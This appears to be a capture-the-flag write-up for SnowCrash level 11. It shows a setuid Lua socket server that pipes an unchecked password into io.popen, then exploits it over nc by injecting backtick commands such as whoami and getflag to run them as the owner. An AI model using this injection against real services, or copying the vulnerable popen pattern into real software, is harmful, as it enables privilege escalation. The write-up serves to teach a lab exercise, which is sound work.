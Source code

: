 # LEVEL 11

## Vulnerability

Subprocess on user-provided input in script run by privileged user -> Privilege escalation via code injection

## External resources

nc

## Initial context

In our home directory, we see a lua script with suid/guid bit, which means that whichever user runs the script will benefit from flag11 (the owner)'s permissions.

```
level11@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua

level11@SnowCrash:~$ cat level11.lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

## Solving the challenge

We see that the script ensures it is run on port 5151.
When it receives a connexion from a client, it prompts for password and hashes its content.
In the hash function, it runs a subprocess which echoes the password we provided.
This is something we can exploit, since no check is done on the password, which means we can provide any command and it should be executed as flag11, thanks to the suid bit on the lua script.
If we use nc to open a TCP connection with the server running on port 5151, we are prompted for a password, as expected.
Let's try with a `whoami` to check our permissions:

```
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: `whoami`
Erf nope..
```

We can't see the output of the command, since the script pipes it.
Let's redirect it to a file:

```
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: `whoami` > /tmp/test
Erf nope..
level11@SnowCrash:~$ cat /tmp/test
flag11
```

This is what we were hoping for, so now we can try to run getflag as flag11:

```
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: `getflag` > /tmp/token
Erf nope..
level11@SnowCrash:~$ cat /tmp/token
Check flag.Here is your token : XXXXXXXXXXXXXXXXXXXXXXXXXXXX
```
